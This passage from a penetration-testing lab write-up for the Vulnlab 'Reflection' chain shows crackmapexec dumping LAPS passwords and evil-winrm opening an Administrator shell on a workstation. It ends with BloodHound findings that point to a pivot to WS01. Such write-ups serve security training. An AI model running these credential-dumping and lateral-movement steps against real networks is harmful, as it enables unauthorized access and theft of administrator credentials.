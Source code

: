 ```
└─$ crackmapexec ldap 10.10.255.149 -u 'abbie.smith' -p '[...snip...]' --kdcHost 10.10.255.150 -M laps
SMB         10.10.255.149   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
LDAP        10.10.255.149   389    DC01             [+] reflection.vl\abbie.smith:[...snip...]
LAPS        10.10.255.149   389    DC01             [*] Getting LAPS Passwords
LAPS        10.10.255.149   389    DC01             Computer: MS01$                Password: [...snip...]
```

As you can see, the password was dumped successfully. Note that this exploit would only work if LAPS was actually running on the target and we had the respective privilege to be able to dump it.

Now that we have the password for that user, we should be able to log in as them. Although testing your credentials `crackmapexec` onto services such as WinRM or RDP on this workstation would come back negative, you can still log in as you normally would through either of those services. Let's use them to log in to WinRM using `evil-winrm`.

```
└─$ evil-winrm --ip 10.10.255.150 -u 'Administrator' -p '[...snip...]' 
    
Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                           
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat C:\Users\Administrator\Desktop\flag.txt
[...snip...]
```

Now that we have control over the `MS01` workstation, we can read the first flag as seen above.

# Pivoting to WS01

Let's now turn our attention to the next part of the chain, as we'll need to escalate to the other workstations on the environment. Given the rule of thumb with these chains, I'm assuming that we'll need to compromise `WS01` first before the DC.

We'll take a look at Bloodhound again to see if there are any domain user objects that we can use pivot to `WS01`. I first searched through the `domain users` group and selected all of the `Direct Members` to view every user account on the domain. 

I immediately saw something different here with another user on the domain, that user being `Georgia.Price`.

![](/images/vulnlab/reflection-vl/e.png)

As you can see from the screenshot above, it seems as though `Georgia.Price` has the same `GenericAll` permissions that `abbie.smith` had, this time being on `WS01`. This means with `Georgia.Price`'s credentials, we should be able to either read the LAPS password or exploit RBCD on `WS01`. The only stipulate here is that we do not current possess those credentials.
